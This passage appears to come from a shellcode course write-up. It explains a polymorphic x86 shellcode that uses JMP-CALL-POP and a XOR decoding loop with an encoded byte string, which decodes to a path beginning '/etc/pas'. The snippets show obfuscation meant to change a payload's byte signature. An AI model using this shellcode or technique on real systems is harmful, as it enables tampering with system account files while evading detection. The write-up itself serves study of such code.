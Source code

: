 ### Analysis

Let's analyze the first two routines of the polymorphic shellcode:

```nasm
_start:

    jmp short CallRunShellcode

RunShellcode:

    pop edi
    mov esi, edi

    xor ecx, ecx
    mul ecx

    mov cl, 11
    
    ; ...
```

<figcaption class="figure-caption">The assembly code in between has been omitted for clarity, in order to show the `JMP-CALL-POP` technique</figcaption>

```nasm
    ; ...

CallRunShellcode:

    call RunShellcode
    EncodedStringBytes: db 0x5e,0x06,0x17,0x16,0x5e,0x13,0x02,0x06,0x02,0x14,0x07,0x75,0x05,0x0c,0x0c,0x07,0x4b,0x59,0x53,0x4f,0x41,0x59,0x17,0x45,0x41,0x11,0x59,0x5a,0x03,0x0c,0x0c,0x01,0x4b,0x4c,0x01,0x1c,0x1f,0x4c,0x01,0x14,0x02,0x0b,0x69,0x75
```

Compared to the original shellcode, I'm still using the the `JMP-CALL-POP` technique.

I decided against pushing all the bytes 4 `DWORD` values at a time, as that would require way more bytes (considering the `XOR` operations too).

I'm saving the pointer to the bytes referenced by `EncodedStringBytes` into the register `EDI` instead of `ESI`, in order to change the resulting bytes.

However, I had to use the register `ESI` too, because I would later use `EDX` for decoding the `XOR`-ed bytes.

The other instructions (`xor`, `mul`, and `mov`) weren't present in the original shellcode, but I needed them for the decoding stub.

Follows the next routine:

```nasm
DecodeStringBytes:
    
    ; XOR key: uccq
    xor DWORD [edi], 0x75636371

    ; now that the 4 bytes are decoded, step to the next 4 bytes
    add edi, 0x4

    ; repeat 11 times, if ECX == 0 don't loop
    loop DecodeStringBytes
```
